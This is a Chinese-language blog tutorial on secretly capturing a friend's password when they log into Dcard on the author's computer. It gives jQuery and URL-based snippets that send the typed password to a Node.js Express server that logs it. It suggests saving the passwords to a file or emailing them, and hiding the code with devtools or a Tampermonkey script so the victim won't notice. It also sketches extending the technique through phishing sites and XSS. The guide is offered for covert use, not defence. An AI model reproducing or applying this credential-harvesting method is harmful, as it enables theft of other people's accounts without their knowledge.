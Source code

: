 ```yaml
---
title: nodeJS實戰-給別人登入時監聽密碼

---
```


# nodeJS實戰-給別人登入時監聽密碼

dcardPassword
dcard.js
node.js

## 前情提要

當你的朋友要在你的電腦上登入帳號，卻又不想要給你看他密碼，
在那邊小心翼翼，死也不要讓google帳號記住，各種防備，
啊明明都已經願意在你電腦登入，意思是能讓你用他的帳號，還要防備密碼被你知道，
這種人超G8啦。
這時候，就需要寫一個後端來接收資料，這邊我用nodeJS。


有很多名詞跟觀念我整理在另一個筆記裡面：
[nodeJS筆記-接收ajax傳值方法以及細節](https://hackmd.io/RCW-97jERmycwlAPMEKQ9A)

原理就只是node接收資料，最基礎那種XD。

## 目標效果

![image](https://hackmd.io/_uploads/rkHnMX0nT.png)

當前端打資料之後，nodejs後端要穩穩地接受一下密碼，並且console.log出來，
當然也可以不要這麼明目張膽，可以把password存入txt，
或是去找發email的API，將密碼傳給自己的信箱，這樣驚喜感更強烈XD (?

## 思路理清

### 此文狀況:在你的電腦操作
以要登入的頁面是dcard來說好了：

你朋友或同學使用你的電腦登入-->打了帳號跟密碼在D卡頁面-->點選登入-->此時發送請求到自己的後端伺服器-->後端console出來或是想辦法儲存

以上的例子是對方拿你的電腦來登入，這是一個極為罕見的特例，
因為達到這個境界，你已經[社交工程](https://scitechvista.nat.gov.tw/Article/c000003/detail?ID=c39a6e42-653b-469e-89a9-7e2579657fa5)完成了駭客工作的99%，存取只是那1%小工作。
大多數時候能到這種程度，對方應該不會介意告訴你密碼。

### 延伸狀況:在user自己的電腦操作
下面我要開展一個延伸的狀況，也是比較常見的流程：

使用者在自己的電腦上-->連線到了D卡網頁-->打了帳號跟密碼在D卡頁面-->點選登入-->此時發送請求到自己的後端伺服器-->後端console出來或是想辦法儲存

為了達到駭人帳密，在上面的流程中那些地方可能有漏洞可以鑽？或是應該在哪切入？
應該重點在於：【連線到了D卡網頁】這個步驟。
以下是我設想了幾種可能：

1.使用者看似到D卡，其實連線到的是你的釣魚網站，需要有很像的域名。
2.在D卡的頁面上，有XSS漏洞，因此注入程式碼後，可以塞自己的發送請求。

### 極少見的特例狀況:另一種原理

再延伸另一種機率很低也很難達成的特例狀況：CSRF攻擊。(跨站請求偽造)

這個狀況的話，發生的流程就不是在【連線到了D卡網頁】這個地方，而是使用者瀏覽你的網站，
而你的網站透過iframe或是某個允許跨域的元素發送請求，
假設你已經登入過低卡，沒被登出，那麼就虎假虎威你的會員身分，去做增刪查改。

[這篇標題拼錯了，但文章還可以:CRSF攻击看这一篇就够了](https://www.jianshu.com/p/84c32ced3832)

[什麼是 CSRF 攻擊？如何防範？](https://www.explainthis.io/zh-hant/swe/what-is-csrf)

詳情我這邊就不展開了，這個危險性偏低，很多網站或瀏覽器都已經做好預防措施。

## 流程操作
我們先確定一下後端接收的路徑。

我這邊就設定為：

`http://localhost:3000/get?password=密碼在這邊`

這樣子確定之後就可以開始分析前端跟後端的寫法囉！


## 前端的布置

前端傳送資料詳細去分類的話，
應該可以說有三種模式：
第一種是透過網址發送，第二個是ajax，第三種是表單。

以下是各種方法的寫法示範。
### 透過網址發送的方式

1.直接轉址到該地址

`location.href="http://localhost:3000/get?password=密碼在這邊"`

2.透過img或iframe或是相關有src的元素發送

```
<img src="http://localhost:3000/get?password=密碼在這邊">
```

### 使用ajax去發請求

這個方法的話則是透過GET以及data傳值

```
url = "http://localhost:3000/get";
//data={'password':'???'}

$.ajax({
  url: url,
  method: "GET",
  dataType: "json",
  data: 'password=這就是密碼',

  success: function (res) {
    console.log(res);
  },
  error: function (err) {
    console.log(err);
  },
});
```

### 表單的方法

這邊跟原本該網頁登入應該就相同，我先不寫，有需求再補。

## 後端的布置

後端接收資料的話也有不同的寫法。

1.從網址上的query分析，使用套件為url.parse
```
var data = url.parse(req.url, true).query.password || "";
```

[node.js中的url.parse方法使用举例](https://www.jb51.net/article/278295.htm)

[Node.js v21.6.2 documentation](https://nodejs.org/api/url.html)

2.從req的內容去解析，使用套件為bodyParser
呼叫資料的時候用 `data=req.body`

以下的程式碼我就用第一種，感覺比較直覺也比較簡單常見：
```javascript=
const express = require("express");
const url = require("node:url");
const app = express();
const port = 3000;

app.get("/get", function (req, res) {
  var password = url.parse(req.url, true).query.password || "";
  console.log(password);
});

app.listen(port, () => {
  console.log(`Server is running on http://loccalhost:${port}`);
});

```

## 實際執行準備

已經完成所有程式碼了，程式部分完成之後，接下來要做的就是設置陷阱。
也就是要先把伺服器開著、埋好程式碼。

開伺服器的話毫無疑問就是先運行著，沒什麼問題，照理說也不太會被發現。

埋好程式碼在D卡登入的頁面則是有兩種做法，
第一種開啟devtool先丟JS碼後，再給人家登入。

第二種使用油猴，最安全，畢竟外行也不會發現，
這個方式可以避免對方突然重新整理或是自己重開網頁。


## 心得總結

coding完畢！

筆記就到這邊，剩下的就是個人實行結果囉。
